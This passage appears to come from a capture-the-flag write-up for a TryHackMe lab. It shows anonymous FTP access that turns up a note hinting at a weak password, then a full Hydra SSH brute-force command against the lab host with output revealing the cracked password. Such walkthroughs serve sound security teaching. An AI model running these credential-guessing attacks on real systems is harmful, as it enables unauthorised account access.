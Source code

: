 **Login:**

* Username: `anonymous`
* Password: (blank)

**Discovered:**

```
note_to_jake.txt
```

I downloaded it:

```bash
get note_to_jake.txt
```

Read it:

```bash
cat note_to_jake.txt
```

**Contents:**

```
From Amy,

Jake please change your password. It is too weak and Holt will be mad if someone hacks into the Nine Nine.
```

🔍 We now know:

* Users: `jake`, `amy`
* Jake uses a **weak password**

***

### 🔓 SSH Brute Force (Port 22)

Based on the weak password hint, I used **Hydra** to brute-force `jake`’s SSH password:

```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.51.238 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2025-05-23 17:35:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.51.238:22/
[22][ssh] host: 10.10.51.238   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

